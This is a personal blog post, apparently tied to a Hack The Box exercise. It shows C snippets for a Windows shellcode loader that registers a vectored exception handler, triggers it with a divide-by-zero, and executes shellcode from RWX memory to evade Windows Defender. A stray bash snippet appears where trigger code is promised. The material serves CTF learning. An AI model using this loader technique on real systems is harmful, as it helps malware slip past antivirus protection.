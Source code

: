 ```yaml
---
title: 1/0 = reverse shell ??
description: Deep dive into a unique shellcode loading technique
date: 2025-01-10 12:00:00 +0000
categories: [Windows,Programming]
tags: [Windows,Shellcode]
image: assets/img/visual_studio.png
---
```


In this blog post I'll explain how to load your shellcode using a really neat technique abusing VectorExceptions, a windows way of catching exceptions.

## Context
For the past few weeks I've been trying to finish my first htb fortress.
After gaining access to a windows machine, which had SeImpersonate so it was a quick win, I tried to use godpotato.exe to escalate.
And then everything to shambles. I spent a lot of time trying to get godpotato on the box and it kept getting deleted by windows defender.
Commonly used techniques to bypass AV include converting your exe to raw assembly (the shellcode) and running it through another binary (the loader).
Since I don't have the skills to create a shellcode from a binary, I used [donut](https://github.com/TheWover/donut) which works great for now !
Now I only had to create my shellcode loader :)

## VirtualAlloc ?
I decided that I wanted to create my own shellcode loader, which I did using visual studio 2022. I first used VirtualAlloc like absolutely every shellcode loader does on this planet. It's really straightforward, all you do is create executable memory, put your shellcode inside, and jump to it. I wanted to get more creative so I searched for more unique ways and I found a really funny one, vector excpetions. What I mean by funny is that the code that triggers the shellcode is the following :

```bash
if [ $? -ne 0 ]; then
  echo "The command was not successful.";
  #do the needful / exit
fi;
```

```C
	int a = 1;
	int b = 0;
	int result = a / b;
```

Yes, it's the actual code in my shellcode loader ^^.
I know I know it sounds confusing at first, but don't worry it will all come together.
When your program reaches this, it will raise an exception and will iterate through a list of "vectored exception handlers", which is a fancy word for functions that will be called, one after the other before one of them can solve the exception. All we need to do is create an ExceptionHandler and register it so it will be called when an error occurs. I could go on and explain step by step but this snippet will explain it better than I :

```C
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo) {
	// Check if it's a divide by zero exception
	if (pExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_INT_DIVIDE_BY_ZERO) {
		printf("[+] Exception caught, running shellcode ...\n");
		// Just in case
		if (g_shellcode == NULL || g_shellcodeSize == 0) {
			printf("[X] Shellcode error :(\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		// VirtualAlloc shellcode as usual
		void* execMem = VirtualAlloc(NULL, g_shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if (execMem == NULL) {
			printf("[X] VirtualAlloc error (huh ?)\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		memcpy(execMem, g_shellcode, g_shellcodeSize);
		((void(*)())execMem)();  // Telephone meeeee

		VirtualFree(execMem, 0, MEM_RELEASE);

		return EXCEPTION_EXECUTE_HANDLER;  // Not make an infinite loop
	}
	// Not my fault
	return EXCEPTION_CONTINUE_SEARCH;
}
```

As you can see, this will trigger only if an int divide by zero exception is raised.
I could've done this with other types of exceptions but triggering a shellcode when dividing by zero was just better ^^.

If you paid attention you realise that we need to register our ExceptionHandler, which is done like this :

```C
	if (AddVectoredExceptionHandler(1, ExceptionHandler) == NULL) {
		printf("[X] Couldn't add an Exception Handler sadly\n");
		return;
	}
```

Reading the [docs](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler), we see that the first argument just needs to be non zero so that our ExceptionHandler will be called first.

## Done :)
Then you can just run the code and it will trigger you shellcode ! 
This technique is still recent, and I need to give credit to [this blog post](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/) for explaining the inner workings of windows Exceptions.

It gave me motivation to code my own shellcode loader, which you can checkout [here](https://github.com/0xtensho/ExtremeShellcode). 
It's useful for ctf's as it gets the shellcode through http before executing it, allowing you to upload only the loader. 
There are tons of other ways to run a shellcode, but of course the best way is the way that is still unknown by windows defender.
